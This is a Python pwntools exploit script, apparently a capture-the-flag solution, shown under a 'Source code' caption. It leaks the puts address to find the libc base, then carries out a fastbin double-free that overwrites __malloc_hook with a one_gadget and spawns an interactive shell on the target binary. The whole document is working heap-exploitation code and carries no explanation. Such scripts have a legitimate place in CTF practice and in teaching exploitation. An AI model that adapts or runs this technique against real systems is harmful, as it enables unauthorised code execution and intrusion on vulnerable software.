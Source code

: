 ```python
def exploit(p):
    # Get puts leak
    ru('puts() @ ')
    puts = int(p.recvline().strip(), 16)
    
    # Setting random username
    sla('username: ', 'JEFFJOHN')
    
    # Calculate libc addresses
    libc.address = puts - libc.symbols['puts']
    one_gadget = libc.address + 0xe1fa1
    malloc_hook = libc.symbols['__malloc_hook']
    
    # Fastbin dup
    malloc(0x68, "A"*8)
    malloc(0x68, "A"*8)

    free(1)
    free(0)
    free(1)

    # Overwrite __malloc_hook with one_gadget 
    fake_chunk = malloc_hook - 35
    malloc(0x68, p64(fake_chunk))
    malloc(0x68, "A"*8)
    malloc(0x68, "A"*8)
    malloc(0x68, "A"*19 + p64(one_gadget))

    # Pop shell
    sla('> ', '1')
    sla('size: ', '1')

    lg('Fake Chunk: ' + hex(fake_chunk))
    lg('malloc_hook: ' + hex(malloc_hook))
    lg('One_gadget: ' + hex(one_gadget))

    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])
    libc = elf.libc

    p = process(elf.path)
    pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```
